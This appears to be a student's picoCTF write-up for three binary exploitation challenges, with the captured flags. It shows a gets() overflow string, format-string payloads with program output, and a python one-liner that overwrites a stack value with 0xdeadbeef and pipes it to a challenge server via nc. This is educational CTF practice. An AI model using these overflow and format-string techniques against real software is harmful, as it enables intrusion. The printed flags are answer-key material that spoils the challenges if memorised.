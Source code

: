 # 1. buffer overflow 0

> Let's start off simple, can you overflow the correct buffer? The program is available here. You can view source here. Additional details will be available after launching your challenge instance.

## Solution:

- I installed both files and decided the `cat` the source code
- It called a `flag.txt` and made use of various functions, including `gets` and `fgets`
- The hint mentioned to check `man` page of `gets`, so I did that and figured it has memory issues and easily gets overflowed
- Checked the source code more properly and saw `buf1` had 100 limit
- The `input` didn't have any limit, so I decided to just smash my keyboard and enter lot of characters

```
Input: fgdfkngdkfngkjdfngkjdfngkdjnfgdkfjgkdjfngkdjnfgkjdnfgjdkfjngkdjfngkdfgkdfkgjndfkgndfgjndkfjngkdfngkdfkgjdfjngkdjfgkjdnfgndkfjngkdjnfkgjndfjngkdjnfgkjndfjngdkfngdjfgkdfngkdjfnkgjdnfkgjndfkgjndkfngdkjfngkdnfgjndfgjnfjndslsf
```
- This printed the flag

## Flag:

```
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```

## Concepts learnt:

- I learnt a bit about how stack and buffer overflow work

## Notes:

- Went through attatched videos and website in Phase 2 PDF, but none of them made any sense ;-;
- Simply reading source code did help a lot tho, and thus I was able to get the flag

## Resources:

- [Stack intro](https://youtube.com/watch?v=CRTR5ljBjPM)
- [CTF101- Binary exploitation](https://ctf101.org/binary-exploitation/overview/)


***

# 2. format string 0

> Can you use your knowledge of format strings to make the customers happy? Download the binary here. Download the source here. Additional details will be available after launching your challenge instance.

## Solution:

```bash
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
```
- First I used `cat` to check the source code of file and read a bit through it
- Now I had idea that I will have to choose 2 orders and understand the source code to exploit these and get the flag
- At first I read Patrick part and realised if I choose wrong string then I am asked to give something else cause he is still hungry.
- So I decided to give him the largest option, which was `Gr%114d_Cheese` cause of `%114d` which infaltes the character amount.
- Now that this was done, I was asked to give order to Sponge Bob
- The options `Cla%sic_Che%s%steak` has lot of `%s` with no input for it, which lead to program getting crashed
- Thus it printed the flag

## Flag:

```
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_a1d85b3e}
```

## Concepts learnt:

- Learnt how different functions and syntaxes in C can be exploited to act differently and thus take advantage of program to give output it isn't supposed to

## Notes:

- At first I got confused what to choose when I was given options, but inspecting source code helped me!

## Resources:

- Few searches regarding how some syntaxes work


***

# 3. clutter-overflow

> Clutter, clutter everywhere and not a byte to use. `nc mars.picoctf.net 31890`

## Solution:

- I installed both the files to see the source code and mess with program locally
- The program uses `gets()` so we can overflow it and exploit
- The max size is `0x100` which is `256` bytes, so we must use value more than this.
- First I inputted random strings after connecting to netcat, but it always said `0x0` bytes whereas we actually need `0xdeadbeef`
- Now I understood that we must overflow the `gets` and append exactly the amount of bytes so that it appends them to next thing in stack and thus give me the flag
- This part was the most complex
- I opened the file in IDA and realised we actually need `256+8` bytes for overflowing
- We can't append `0xdeadbeef` directly, so we need to write it using little-endian, which writes in reverse order. Thus we write it as `\xef\xbe\xad\xde`
- Now that we know this, we can create a simple python snippet to get the flag: `python3 -c "import sys; sys.stdout.buffer.write(b'A'*264 + b'\xef\xbe\xad\xde\n')" | nc mars.picoctf.net 31890`
- This gives us the flag

## Flag:

```
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
```

## Concepts learnt:

- Learnt a lot on how exactly to figure the amount needed for overflow
- How to actually do buffer overflow
- How to use little endian

## Notes:

- I got stuck almost on every step at first, it was pretty easy to figure out what to do i.e just overflow and append bytes to interpret them as deadbeef
- First I had to understand that computers need to use little endian, thus I converted deadbeef to that
- I also tried using gdb, but that didn't work for me
- I even tried gef instead to get verbose output and use other commands to create exploit, but didn't work for me either
- Thankfully IDA worked at last o figure out we actually need `264` bytes for overflow

## Resources:

- [Info on little endian](https://en.wikipedia.org/wiki/Endianness)
- IDA
- `man gets`
